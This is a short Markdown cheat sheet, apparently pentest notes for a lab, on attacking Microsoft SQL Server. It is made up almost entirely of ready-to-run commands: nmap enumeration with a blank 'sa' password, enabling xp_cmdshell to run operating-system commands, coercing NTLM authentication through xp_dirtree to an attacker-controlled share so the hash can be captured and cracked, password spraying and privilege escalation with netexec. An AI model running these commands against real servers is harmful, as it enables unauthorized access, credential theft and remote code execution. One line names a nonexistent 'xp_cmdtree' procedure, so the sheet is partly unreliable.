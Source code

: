 # MSsql Escalation

## Remote Enum

```
sudo nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 10.129.201.248
```

Using metasploit

	use auxiliary/scanner/mssql/mssql_ping

## Remote Connection

```
impacket-mssqlclient -windows-auth '<domain>/<username>:<password>'@<tartget_ip>
impacket-mssqlclient '<username>:<password>'@<tartget_ip>
```

## Basic Information

select @@version; # version of ms_sql
SELECT is_srvrolemember('sysadmin'); #checks if we are admin
select system_user; # returns the current user in the db


## Try to get access to xp_cmdshell

Use shell commands

	EXEC xp_cmdshell 'net user'; # This allows us to execute commands.
	exec xp_cmdtree 'whoami'; # This allows us to execute commands.


If we cant use it we need to activate it.

	EXEC sp_configure 'show advanced options', 1;
	RECONFIGURE;
	EXEC sp_configure 'xp_cmdshell', 1;
	RECONFIGURE;

## Get NTLM hash

Check if we can do a xp_dirtree

	exec xp_dirtree 'c:\'; # Checks if we can list files
	if this is successful we can now try to do a request back to us
	exec xp_dirtree '\\our_ip\test\test';
	we can check if we receive the request with nc. This request will attempt a ntlm authentication, so we can start responder to get the hash and then try to crack it. The test share and file dont have to exist


## With NetExec

### Password Spray

	netexec mssql <targetip> -u <file_with_usernames> -p <file_with_passwords>
	netexec mssql DCO1 -u usernames.txt -p passwords.txt

### PrivEsc

	netexec mssql <targetip> -u <username> -p <password> -M mssql_priv
	netexec mssql <targetip> -u <username> -p <password> -M mssql_priv -o ACTION=privesc

### Execute Queries

	netexec mssql <targetip> -u <username> -p <password> -q 'SELECT name FROM master.dbo.sysdatabases;'


## Db enum

Show databases:

	SELECT name FROM sys.databases;

Use database:

	USE <database_name>;

Show tables:

	SELECT table_name FROM information_schema.tables WHERE table_type = 'BASE TABLE';

## Relevant Information

	https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server
	https://www.netexec.wiki/mssql-protocol/